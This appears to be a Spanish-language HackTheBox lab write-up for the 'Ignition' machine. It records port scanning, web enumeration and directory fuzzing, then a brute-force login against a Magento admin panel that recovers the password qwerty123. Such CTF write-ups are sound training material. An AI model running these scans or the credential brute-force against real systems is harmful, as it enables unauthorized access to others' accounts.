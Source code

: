 # Ignition

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
Created time: 5 de enero de 2025 14:01
IP: 10.129.1.27

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.1.27 -oG allports

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p80 -sCV 10.129.1.27 -oN targeed

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/
|_http-server-header: nginx/1.14.2
```

- **Identificación de vulnerabilidades**
    - 80/tcp open  http    nginx 1.14.2

**Enumeracion web**

Añadimos el host iginition.htb

```bash
sudo nano /etc/hosts
```

Visitamos el sitio

![image.png](<imagenes/image 73.png>)

Scripts nmap

```bash
❯ sudo nmap --script=http-enum -sV -p80 10.129.1.27

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-enum: 
|   /setup/: Potentially interesting folder
|_  /soap/: Potentially interesting folder

```

```bash
whatweb 10.129.1.27

http://10.129.1.27 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[nginx/1.14.2], HttpOnly[PHPSESSID], IP[10.129.1.27], RedirectLocation[http://ignition.htb/], UncommonHeaders[content-security-policy-report-only,x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.14.2]
http://ignition.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], HttpOnly[PHPSESSID], IP[10.129.1.27], Magento, Script[text&#x2F;javascript,text/javascript,text/x-magento-init], Title[Home page], UncommonHeaders[content-security-policy-report-only,x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.14.2]
```

Fuzzing

```bash
❯ gobuster dir -u http://ignition.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 25815]
/contact              (Status: 200) [Size: 28673]
/home                 (Status: 200) [Size: 25802]
/media                (Status: 301) [Size: 185] [--> http://ignition.htb/media/]
/0                    (Status: 200) [Size: 25803]
/catalog              (Status: 302) [Size: 0] [--> http://ignition.htb/]
/admin                (Status: 200) [Size: 7092]
/static               (Status: 301) [Size: 185] [--> http://ignition.htb/static/]
/Home                 (Status: 301) [Size: 0] [--> http://ignition.htb/home]
/cms                  (Status: 200) [Size: 25817]
/checkout             (Status: 302) [Size: 0] [--> http://ignition.htb/checkout/cart/]
/robots.txt           (Status: 200) [Size: 1]
/robots               (Status: 200) [Size: 1]
/setup                (Status: 301) [Size: 185] [--> http://ignition.htb/setup/]
/wishlist             (Status: 302) [Size: 0] [--> http://ignition.htb/customer/account/login/referer/aHR0cDovL2lnbml0aW9uLmh0Yi93aXNobGlzdA%2C%2C/]
/soap                 (Status: 200) [Size: 391]
/rest                 (Status: 400) [Size: 52]
/errors               (Status: 301) [Size: 185] [--> http://ignition.htb/errors/]
/opt                  (Status: 301) [Size: 185] [--> http://ignition.htb/opt/]
```

Enumeramos /admin

![image.png](<imagenes/image 74.png>)

En la pagina /setup encontramos la versión:

Magento Version dev-2.4-develop 

Usamos un script en python para buscar la contraseña de admin del panel de login:

```bash
❯ python magentoBf.py http://ignition.htb/admin -u admin -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

[V] To Check: admin: qwerty123          
Ctrl-c was pressed. Do you really want to exit? y/n 

```

User: admin

Password: qwerty123

Nota: Las pistas de HTBox decian que se podia hacer una busqueda de los passwords mas usados en 2024. Buscandolo en google encontramos (qwerty123)

![image.png](<imagenes/image 75.png>)

## Explotación

<aside>
💡 No hay explotación ni escalada de privilegios

</aside>

## Conclusión

<aside>
💡 Maquina fácil. Tener presente leer todos los paneles (dashboard)  y home pages, ya que no he visto la flag del dashboard y he perdido mucho tiempo buscando maneras de acceder.

</aside>
